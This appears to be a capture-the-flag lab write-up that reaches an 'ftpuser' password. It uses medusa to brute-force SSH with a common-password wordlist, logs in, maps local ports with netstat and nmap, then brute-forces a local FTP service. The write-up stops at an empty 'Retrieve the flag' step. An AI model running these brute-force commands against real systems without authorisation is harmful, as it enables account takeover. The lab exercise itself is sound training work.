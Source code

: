 # Web Services

### What was the password for the ftpuser?

Getting the flag:

**Step 1** - Launch the attack with this password [wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt):

* {% code overflow="wrap" %}
  ```bash
  medusa -h <SERVER_IP> -n <SERVER_PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Login to the server with the password we just found:

* {% code overflow="wrap" %}
  ```bash
  ssh sshuser@<SERVER-IP> -p SERVER_PORT
  ```
  {% endcode %}
*

    <figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Expand the Attack Surface:

* Execute the **netstat** command to listen open ports and listen service:
  *   ```bash
      netstat -tulpn | grep LISTEN
      ```


  *   And we found the port 21 open

      <figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
* Confirm the port 21 is open with nmap:
  * ```bash
    nmap 127.0.0.1
    ```
  *

      <figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4** - Targeting the FTP Server:

* Brute-force the authentication mechanism:
  * ```bash
    medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
    ```
    *



**Step 5** - Retrieve the flag:

